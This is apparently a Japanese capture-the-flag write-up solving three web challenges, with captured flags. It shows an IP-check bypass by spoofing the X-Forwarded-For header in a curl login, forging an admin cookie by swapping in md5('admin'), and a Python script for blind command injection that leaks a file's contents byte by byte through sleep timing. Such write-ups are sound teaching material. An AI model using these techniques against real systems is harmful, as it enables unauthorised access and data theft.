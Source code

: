 ```
flag{flags_are_useless_in_real_world}
```

## [Web 100] Web1

ソースを見ると長い空行のあとに `<!-- MmI0YjAzN2ZkMWYzMDM3NWU1Y2Q4NzE0NDhiNWI5NWM= -->` というコメントがあります。base64 でデコードすると `2b4b037fd1f30375e5cd871448b5b95c`。これをググると Coldplay の Paradise という曲がヒットしました。

適当なユーザ名とパスワードでログインしようとすると `Mismatch in host table! Please contact your administrator for access. IP logged.` というエラーが表示されましたが、`X-Forwarded-For: 127.0.0.1` を付けるとこのエラーは表示されなくなりました。

いろいろ試して `curl -X POST --dump-header - http://54.152.19.210/web100/ --data "user=coldplay&pass=paradise" -H "X-Forwarded-For: 127.0.0.1" | grep -
v "^$"` でフラグが表示されました。えー…。

```
flag{4f9361b0302d4c2f2eb1fc308587dfd6}
```

## [Web 200] Web2

適当にログインして Cookie を見ると `u=351e76680323fb4d6f5201a5d6db30977ce5408757; r=351e766803d63c7ede8cb1e1c8db5e51c63fd47cff` となっています。共通している先頭 10 文字を削除して検索してみると、u の方はログインしているユーザ名、r の方は `limited` の md5 ハッシュと分かりました。

r を共通している先頭 10 文字 + md5(admin) に変えるとフラグが表示されました。

```
flag{bb6df1e39bd297a47ed0eeaea9cac7ee}
```

## [Web 300] Web3

何をすればいいのかよく分かりませんでしたが、[@megumish](https://twitter.com/megumish) さんが `curl -v -d "cmd=yes" http://54.89.146.217/` で裏で `yes` を実行しているようだというコメントをされてなるほど～という感じでした。

コマンドの実行結果を得たいのですが、curl や wget などによる外部との通信はできません。ということで sleep を使って少しずつ実行結果を手に入れましょう。

```python
import requests
import time

cmd = """
python -c "
import sys, time;
s = open('/home/nullcon/flagpart1.txt').read();
t = int(s.encode('hex')[{}], 16);
time.sleep(t);
sys.exit(0)
"
""".strip().replace('\n', '')

i = 0
while True:
  start = time.time()
  r = requests.post('http://54.89.146.217/', data={
    'cmd': cmd.format(i)
  })
  print(hex(int(time.time() - start)))
  i += 1
```
